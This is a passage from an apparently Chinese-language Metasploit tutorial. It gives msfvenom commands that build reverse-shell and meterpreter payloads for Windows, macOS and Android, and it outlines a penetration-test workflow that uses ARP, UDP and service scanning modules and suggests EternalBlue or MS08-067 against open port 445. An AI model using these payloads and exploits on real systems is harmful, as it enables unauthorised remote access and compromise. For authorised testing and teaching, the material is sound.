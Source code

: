 ```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xxx.xxx.xxx.xxx lport=xxxx -f exe > payload.exe
```



#### Mac 平台生成 `payload` 命令

````shell
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxxx -f macho -o payload.macho
````

#### Android 平台生成 `payload` 命令（需要签名）

```shell
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxxx -f apk -o payload.apk
```

```shell
msfvenom -p android/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxxx R>payload.apk
```



## msfconsole 漏洞利用流程

1. 前期交互

   与客户组织进行讨论，确定目标范围。

2. 信息收集

   外围搜索、主机探测、端口扫描、服务扫描、网络漏洞扫描、脚本扫描等

   1. 基于 `msf` 发现内网存活主机
      - `search scanner type:auxiliary` 查看可用的发现主机模块
        - `auxiliary/scanner/discovery/arp_sweep` 基于 ARP 发现内网存活主机
        - `auxiliary/scanner/sidcovery/udp_sweep` 基于 UDP 发现内网存活主机
        - `auxiliary/scanner/ftp/ftp_version` 发现 FTP 服务
        - `auxiliary/scanner/http/http_version` 发现 HTTP 服务
        - `auxiliary/scanner/smb/smb_version` 基于 smb 发现内网存活主机
        - ....
      - `use auxiliary/scanner/discovery/arp_sweep` 使用指定的发现主机模块
      - `options` 查看模块需要配置的参数
      - `set rhost 192.168.xxx.xxx/24` 配置 `rhost` 参数
      - `run` 运行

3. 威胁建模

   确定可行的漏洞利用通道。主要是整理根据收集到的情报，理清漏洞利用思路

4. 漏洞分析

   整理可用资源，挑选匹配的漏洞利用模块、shellcode 等

   1. 比如：如果探测到开放了 445 端口，就可以尝试选择永恒之蓝、永恒之蓝2、MS08-067 等
